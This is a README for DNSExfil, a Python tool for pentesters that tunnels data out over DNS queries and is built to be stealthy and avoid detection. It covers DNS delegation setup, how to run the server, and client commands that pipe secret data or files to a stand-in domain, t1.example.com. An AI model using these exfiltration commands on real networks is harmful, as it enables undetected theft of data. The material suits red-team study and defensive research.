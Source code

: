# __DNSExfil - DNS Tunneling Suite__
![Status](https://img.shields.io/badge/Status-Work%20In%20Progress%20--%20Available%20MVP-yellow)

__This code is a minimum viable product (MVP) for an article in digitalwhisper.co.il.__

DNSExfil is a framework/cli-tool written in Python 3 (>3.8) aimed to exfiltrate data to a remote computer by encoding it to one (or more) DNS queries. Most DNS Tunneling solutions today don't give users the ability to get down to the nitty-gritty of the queries and change domain-building workflow (compression, encryption and encoding used to create the domains for the queries). The main purpose of DNSExfil is to be a solid baseline for pentesters who are looking for the ultimate control over every aspect of building and sending the DNS queries.

Currently, I've built this as a simple CLI tool but I'm planning on making it a full python package (as can be seen from some unused code and code that has yet to be implemented). Furthermore, pure implementations in Rust and JS are in order as well, so it can be run natively (Rust) and in Browsers (JS). 

## Research-Based - Exfiltrate Data over DNS like a pro.
a myriad of research papers were written about mitigating DNS Tunneling tools (like [iodine](https://github.com/yarrick/iodine) and [dnscat2](https://github.com/iagox86/dnscat2)). Most of them besmirch those tools, showing high-throughput of DNS queries that are easily detectable. A few were written with the emphasis on mitigating low-throughput of those data-exfiltrating DNS queries. DNSExfil is not meant to be fast, or furious. It's meant to be stealth and calculated, transmitting as little as possible, as delayed as possible, to avoid detection.

(will be adding research summary soon)


## Disclaimer
This tool can be used to naively send messages over DNS, but it could be used to exfiltrate data from a network. I'm  **not responsible for any misuse of the project**.

## Setup
### Installing Prerequisites

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install [dnslib](https://pypi.org/project/dnslib/), which is the only required package, really.

```bash
$ pip install dnslib
```
OR you can use the included 'requirements.txt' (which is totally overkill):
```bash
$ pip install -r requirements.txt
```

### Setting up the Domain Settings
Next, set up DNS records to delegate a subdomain to your server. For example, if your server's IP is `X.X.X.X` and you want to tunnel through the subdomain `t1.example.com`, then your DNS configuration will look like this: 

| Type | Name | Value              |
| ---- | ---- | ------------------ |
| NS   | t1   | `t1ns.example.com` |
| A    | t1ns | `X.X.X.X`          |

The A record is present because NS records don't accept IP addresses as values (only domains), so we made a domain (t1ns.) that references the IP address of the server and the new subdomain is a valid entry for the NS record. 

## Usage
### DNSExfil-Server
After installation, it is rather simple to use the tool. Running the server is as simple as:
```
$ python3 DNSExfil-Server.py t1.example.com
```
The default settings are to listen on UDP port 53 on 0.0.0.0, which should be enough for almost every usage. for more information, feel free to invoke the help using `-h`:
```
Server Settings:
  --protocol {UDP,TCP}  select protocol for the server
  --host 0.0.0.0        IP address of the listening server
  --port 53             Port of the listening server
  --max_connections 5   In TCP only: # of Maximum Connections allowed

Output Settings:
  -o FOLDER, --output FOLDER
                        Output to folder
```

### DNSExfil-Client
Using the client is super straight forward. You can pipe the data to it or select a file:
```
$ echo "Very Secret Data" | python3 DNSExfil-Client.py t1.example.com
```
or
```
$ python3 DNSExfil-Client.py secret_file.txt t1.example.com
```

### Setting up Encoding and Compression
Both the server and the client rely on the same options and arguments for compression and encoding.
**It is important that both will have the same compression/encoding arguments for proper decoding and de-compressing.**

```bash
Alphabet Settings:
  Change Encoding Settings

  --alphabet_preset {CASE_SENSITIVE,CASE_INSENSITIVE,HUMAN_READABLE,RFC4648,BASE58_BITCOIN,BASE58_RIPPLE,default}
                        select from a pre-made set of encodings
  -c ABCDEFGHIJ, --chars ABCDEFGHIJ
                        specify characters for the encoding
  -r A-Za-z, --range A-Za-z
                        specify range of ASCII characters for the encoding
  -rnd, --randomize     Randomize the order of the characters (recommended to use with -rs)
  -seed RANDOM_SEED, --random_seed RANDOM_SEED
                        Random seed used (does nothing without -r)

Domain Decryption Settings:
  --compress {bzip2,zlib,nocompress}
                        select from a selected set of compressions

```
